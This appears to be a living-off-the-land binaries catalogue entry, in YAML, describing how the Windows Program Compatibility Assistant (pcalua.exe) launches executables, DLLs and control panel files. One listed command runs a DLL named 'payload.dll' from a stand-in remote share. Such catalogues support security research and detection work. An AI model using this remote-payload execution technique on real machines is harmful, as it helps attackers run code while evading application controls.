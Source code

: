 ```yaml
---
Name: Pcalua.exe
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: pcalua.exe -a calc.exe
    Description: Open the target .EXE using the Program Compatibility Assistant.
  - Command: pcalua.exe -a \\server\payload.dll
    Description: Open the target .DLL file with the Program Compatibilty Assistant.
  - Command: pcalua.exe -a C:\Windows\system32\javacpl.cpl -c Java
    Description: Open the target .CPL file with the Program Compatibility Assistant.
Full Path:
  - c:\windows\system32\pcalua.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/KyleHanslovan/status/912659279806640128
Notes: |
    Thanks to:
    fab - @0rbz_
    Kyle Hanslovan - @KyleHanslovan
---
```

